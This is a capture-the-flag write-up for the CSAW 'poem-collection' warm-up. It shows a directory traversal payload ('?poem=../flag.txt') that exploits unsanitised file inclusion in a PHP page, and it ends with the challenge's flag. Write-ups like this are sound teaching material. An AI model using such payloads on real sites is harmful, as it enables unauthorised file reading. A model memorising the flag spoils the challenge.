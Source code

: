 # warm-up/poem-collection

>warm-up/poem-collection

>25 Points\
>Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!\
>http://web.chal.csaw.io:5003

***

Clicking on a poem in this site redirects to "http://web.chal.csaw.io:5003/poems/?poem=poem3.txt"

So attempted to change the URL to point to a flag with 
```
http://web.chal.csaw.io:5003/poems/?poem=flag.txt
```

which gave the error 
```
Warning:  file_get_contents(flag.txt): failed to open stream: No such file or directory in /var/www/html/poems/index.php on line 4
```

Noticing that the given ?poem goes directly into the script, I quickly tried a few versions to see if I could navigate the directory
```
http://web.chal.csaw.io:5003/poems/?poem=./flag.txt
```
and
```
http://web.chal.csaw.io:5003/poems/?poem=../flag.txt
```

which resulted in the desired flag,
```
flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}
```
